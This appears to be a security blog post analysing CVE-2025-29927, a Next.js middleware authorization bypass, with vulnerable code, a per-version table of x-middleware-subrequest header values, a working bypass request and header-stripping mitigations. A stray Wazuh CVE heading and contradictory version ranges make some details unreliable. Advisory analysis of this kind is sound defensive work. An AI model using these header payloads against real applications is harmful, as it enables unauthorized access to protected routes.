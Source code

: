 ```yaml
---
id: 2
title: "CVE-2025-29927: Next.js Middleware Authorization Bypass"
date: "Apil 16, 2025"
category: "vulnerability"
tags: ["CVE", "VulnerabilityResearch", "InfoSec", "Exploits","TechnicalAnalysis"]
author: "Hamza Khattak"
image: "/assets/img/blog/nextjs_blog.png"
authorQuote: "Stay Vigilant, Stay Secure"
---
```


![CVE-2025-24016](/assets/img/blog/nextjs_blog.png)

### CVE-2025-2401: Unsafe Deserialization in Wazuh – RCE

### Description
Next.js, an open-source web framework developed by Vercel, powers modern React-based applications with advanced features like server-side rendering and static site generation. Recently, a critical vulnerability (CVE-2025-29927) was uncovered, allowing attackers to bypass middleware-based authorization checks. This flaw was initially discovered and analyzed by Rachid Allam (zhero). In this post, we’ll dive into the technical details of the vulnerability, explore Rachid’s research, and craft a Nuclei template to help you detect this issue across your environment.

The vulnerability impacts Next.js middleware, a key feature often used to enforce authorization, rewrite paths, handle server-side redirects, and apply response headers like Content Security Policy (CSP).

By exploiting this flaw, an attacker can completely bypass middleware logic simply by adding a malicious `x-middleware-subrequest` HTTP header to their requests.


### Technical Breakdown

- **Affected Software**: Next.js  
- **Affected Versions**: 1.11.4 - 12.3.5, 13.5.9, 14.2.25, and 15.2.3  
- **CVSSv3.1 Score**: 9.1 (Critical)  
- **CVSSv3.1 Vector**: `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:N`  
- **Affected Component**: Middleware  
- **Attack Vector**: Network  
- **Privileges Required**: Low (API Access)  
- **User Interaction**: None  
- **Scope**: Unchanged  

The vulnerability affects Next.js versions 11.1.4 through 13.5.6, as well as 14.x before 14.2.25 and 15.x before 15.2.3. The implications are severe for applications that depend on middleware for access control, as this can lead to unauthorized access to protected routes or resources—without authentication.

### Affected Component Analysis

In Next.js applications, middleware plays a critical role in handling tasks like authentication, logging, and security enforcement for all incoming requests. CVE-2025-29927 stems from how Next.js improperly processes the x-middleware-subrequest header internally.

Here's how the vulnerability works at the code level:javascript


```javascript
const subreq = params.request.headers["x-middleware-subrequest"];
const subrequests = typeof subreq === "string" ? subreq.split(":") : [];

if (subrequests.includes(middlewareInfo.name)) {
  result = {
    response: NextResponse.next(),
    waitUntil: Promise.resolve(),
  }
  continue;
}
```

The x-middleware-subrequest header is a special internal flag used by Next.js to signal that a request was generated within the framework itself specifically, as a subrequest triggered by middleware, not as a direct client request. This mechanism is essential for the proper functioning of Next.js features and helps prevent infinite middleware recursion by keeping track of internal calls.

![nextjs_blog_0.png](/assets/img/blog/nextjs_blog_0.png)

However, this internal trust in the presence of the header introduces a serious flaw: attackers can craft requests that include this header, tricking Next.js into treating them as internal. As a result, middleware logic such as authentication checks can be completely bypassed.


### Exploitation Techniques

The method of exploitation slightly differs depending on the version of Next.js being used:

| **Next.js Version**       | **Middleware Naming/Location**                                | **Header Format (x-middleware-subrequest)**                                      |
|---------------------------|---------------------------------------------------------------|----------------------------------------------------------------------------------|
| **Prior to 12.2**          | `_middleware.ts` in `pages` folder                            | `pages/_middleware`                                                              |
| **Nested Routes (Prior to 12.2)** | `_middleware.ts` in nested `pages` directories         | `pages/dashboard/_middleware`, `pages/dashboard/panel/_middleware`               |
| **12.2 and Later**         | `middleware.ts` (no underscore), not in `pages` folder        | `middleware`                                                                      |
| **12.2 and Later (with /src)** | `middleware.ts` inside `/src` directory                     | `src/middleware`                                                                 |
| **13.2.0 and Later**       | Same as 12.2+ but with recursion depth limit for middleware  | `middleware:middleware:middleware...` or `src/middleware:src/middleware...`      |


To illustrate the vulnerability, imagine a Next.js app with middleware that guards the `/protected` route by redirecting unauthorized users to `/login`.  
Normally request to `/protected` without proper authorization results in a redirect to `/login`.

**Request:**
```
GET /protected HTTP/1.1  
Host: 192.168.44.201:3000  
Upgrade-Insecure-Requests: 1  
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36  
Connection: keep-alive
```

**Response:**
```
HTTP/1.1 307 Temporary Redirect  
location: /  
Date: Wed, 16 Apr 2025 09:52:51 GMT  
Connection: keep-alive  
Keep-Alive: timeout=5  
Content-Length: 1  
/
```

An attacker can bypass this protection by sending a request with the appropriate header:

**Request:**
```
GET /protected HTTP/1.1  
Host: 192.168.44.201:3000  
Upgrade-Insecure-Requests: 1  
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36  
x-middleware-subrequest: middleware  
Connection: keep-alive
```

**Response:**
![nextjs_blog_0.png](/assets/img/blog/nextjs_blog_1.png)

By including a specific header, the request bypasses the middleware’s authorization logic entirely and proceeds straight to /protected, giving the attacker unauthorized access to restricted content.


### Mitigation Strategies

1. **Upgrade to a Patched Version**
The most effective mitigation is to upgrade to a secure version of Next.js where this vulnerability has been fixed.

Patched versions:
- 12.3.5
- 13.5.9
- 14.2.25
- 15.2.3

Upgrading ensures the issue is resolved at the framework level without requiring manual workarounds.

If upgrading is not immediately feasible, apply the following temporary mitigations:

#### 2. Strip the Header at the Load Balancer

If your application is behind a load balancer (e.g., AWS ELB, Cloudflare), configure it to remove the `x-middleware-subrequest` header from all incoming traffic.

#### 3. Configure Web Server to Remove the Header

**Nginx**  
Add this to your server block to strip the header:

```nginx
proxy_set_header x-middleware-subrequest "";
```

**Apache (mod_headers)**  
Use this directive to unset the header:

```apache
RequestHeader unset x-middleware-subrequest
```

#### 4. Custom Server Middleware (e.g., Express)

If you're using a custom server with Express, strip the header before it reaches Next.js:

```javascript
app.use((req, res, next) => {
  delete req.headers['x-middleware-subrequest'];
  next();
});
```


### References

- [GitHub Security Advisory](https://github.com/vercel/next.js/security/advisories/GHSA-f82v-jwr5-mffw)  
- [Proof of Concept GitHub Repo](https://github.com/mhamzakhattak/CVE-2025-29927)
- [Next.js Middleware Documentation](https://nextjs.org/docs/app/building-your-application/routing/middleware)  
- [Original Research](https://zhero-web-sec.github.io/research-and-things/nextjs-and-the-corrupt-middleware)  

---
